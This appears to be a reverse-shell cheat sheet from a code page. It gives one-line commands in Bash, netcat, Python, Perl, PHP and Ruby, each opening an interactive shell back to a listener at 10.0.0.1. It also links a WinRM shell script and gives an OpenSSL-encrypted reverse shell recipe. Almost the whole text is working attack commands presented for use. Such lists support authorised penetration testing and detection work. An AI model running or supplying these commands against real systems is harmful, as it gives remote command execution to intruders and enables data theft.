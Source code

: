 ### Bash

` bash -i >& /dev/tcp/10.0.0.1/8080 0>&1 `
`rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 1337 >/tmp/f`

### Python

`python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",8080));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")' `

### Perl

`perl -e 'use Socket;$i="10.0.0.1";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};`

### PHP

`php -r '$sock=fsockopen("10.0.0.1",1234);exec("/bin/sh -i <&3 >&3 2>&3");'`

### Ruby

`ruby -rsocket -e'f=TCPSocket.open("10.0.0.1",1234).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'`

### WinRM ruby shell

`https://github.com/Alamot/code-snippets/blob/master/winrm/winrm_shell.rb`

### OpenSSL

  #### Generate keys and certs
  
  `openssl req -x509 -newkey rsa:4096 -keyout key.key -out cert.crt -days 365 -nodes`
  
  #### Start OpenSSL server listener
  
  `openssl s_server -quiet -key key.key -cert cert.crt -port 7777`
  
  #### Make reverse connection 
  
  `mkfifo /tmp/s; /bin/sh -i < /tmp/s 2>&1 | openssl s_client -quiet -connect 127.0.0.1:7777 > /tmp/s; rm /tmp/s`
